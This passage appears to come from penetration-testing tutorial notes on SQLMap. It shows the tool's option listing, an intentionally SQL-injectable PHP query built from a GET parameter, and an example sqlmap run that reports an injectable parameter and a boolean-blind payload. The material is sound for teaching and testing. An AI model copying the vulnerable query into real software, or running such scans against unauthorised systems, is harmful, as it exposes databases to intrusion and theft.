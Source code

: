 ```bash
    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file

  Request:
    These options can be used to specify how to connect to the target URL

    -A AGENT, --user..  HTTP User-Agent header value
    -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
    --method=METHOD     Force usage of given HTTP method (e.g. PUT)
    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --param-del=PARA..  Character used for splitting parameter values (e.g. &)
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
...SNIP...
```
For more details, [click here](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
## Basic Scenario
In a simple scenario, a PenTester accesses the web page that accepts user input via a **GET** parameter (e.g., `id`). They then want to test for SQLi.

An example SQLi vulnerable PHP code for this scenario would look as follows:
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```
As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems:
![[rkyhjraLJx.png]]

To run **SQLMap** against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:
```bash
$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

...snip...

[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

```